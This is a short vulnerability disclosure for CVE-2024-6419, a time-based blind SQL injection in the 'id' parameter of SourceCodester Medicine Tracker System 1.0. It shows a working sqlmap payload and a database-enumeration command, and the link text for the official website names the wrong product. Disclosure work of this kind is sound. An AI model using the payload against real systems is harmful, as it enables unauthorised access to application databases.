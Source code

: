 ```yaml
---
title: CVE-2024-6419
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Medicine Tracker System (Master.php)
## CVE-2024-6419

> A vulnerability classified as critical was found in SourceCodester Medicine Tracker System 1.0. This vulnerability affects unknown code of the file /classes/Master.php?f=save_medicine. The manipulation of the argument id leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-270010 is the identifier assigned to this vulnerability.

**Affected Project**: Sourcecodester Medicine Tracker System 1.0

**Official Website**: [https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

**Version**: 1.0

**Related Code file**: /php-mts/classes/Master.php

**Injection parameter**: POST parameter 'id' is vulnerable

## Demonstration

Below is /php-mts/app/?page=medicines/manage_medicine:

![image](https://github.com/jadu101/CVE/assets/76433661/d1cb5f99-123f-400e-b46d-b22e842354b3)

Let's intercept the the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/f99c9759-5e52-4b81-8413-f8904ff9e1bd)

After saving the request as master.txt, we will run sqlmap towards it:

![image](https://github.com/jadu101/CVE/assets/76433661/cc549434-f42c-4d68-ae10-8daa877d453a)

POST parameter 'id' is found to be vulnerable. Below is the payload used:

```
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 8594 FROM (SELECT(SLEEP(5)))EJYb) AND 'npqn'='npqn&name=teest&description=test
---
```

![image](https://github.com/jadu101/CVE/assets/76433661/e7dd397c-6568-4b24-b360-682bc2d8a7a1)

`sqlmap -r master.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/58cab1f5-fc42-4a9f-b0e3-c9f4ba03ecaa)

